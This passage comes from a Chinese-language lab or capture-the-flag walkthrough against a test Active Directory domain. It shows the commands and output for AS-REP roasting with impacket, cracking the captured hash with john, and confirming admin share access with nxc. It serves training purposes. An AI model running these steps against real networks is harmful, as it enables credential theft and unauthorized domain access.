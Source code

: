 ## Kerberoasting攻击

使用GetNPUsers工具检查是否有用户设置了"不要求Kerberos预认证"属性：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ impacket-GetNPUsers -usersfile user -dc-ip 192.168.205.146 'SOUPEDECODE.LOCAL/charlie:charlie' |grep -v "-"

$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:658c87a58d98ac6611635ed17f2dde44$dca073223197802e16eda82933c8edf55b906146cf6eb9ba9e5ff4c3dff4a74d70a91b8787a8a12dd5a85196534f86252203f806f02793903578d5d42c2f4df593c749f6a47f81011356b05caee386f1610848d1a1e92fa79504b988bed455e8e973f720203ac48e13398cd103a0e719bacf3e880591e0aab24a4f191832bb948fe7f5fcd3b17e16302998e592387ae5a25c6c8b8a5566f2b2aa7cd6e26e392c06e7877069df8736662a357aba9edf69cc5b294af97a3af3df6350db9ba829a98ef293de9f10242642e8dab8c55e8024d26c98b7ae9c12a9ff9a0c4afc52f97e765569d0ab540c80505536cade0fce31973c6854507d
```

发现用户`zximena448`存在AS-REP Roasting漏洞，获得Kerberos票据哈希。

## 哈希破解

使用john工具破解AS-REP哈希：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
...
internet         ($krb5asrep$23$zximena448@SOUPEDECODE.LOCAL)   
...
```

成功破解密码：`zximena448:internet`

# 五、权限提升

## 验证新凭据

使用新获得的凭据测试权限：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nxc smb 192.168.205.146 -u zximena448 -p internet --shares   
...
SMB         192.168.205.146 445    DC01             Share           Permissions     Remark
SMB         192.168.205.146 445    DC01             -----           -----------     ------
SMB         192.168.205.146 445    DC01             ADMIN$          READ            Remote Admin
SMB         192.168.205.146 445    DC01             C$              READ,WRITE      Default share
...
```

zximena448用户具有更高权限，可以访问ADMIN$和C$共享。

## LDAP详细枚举
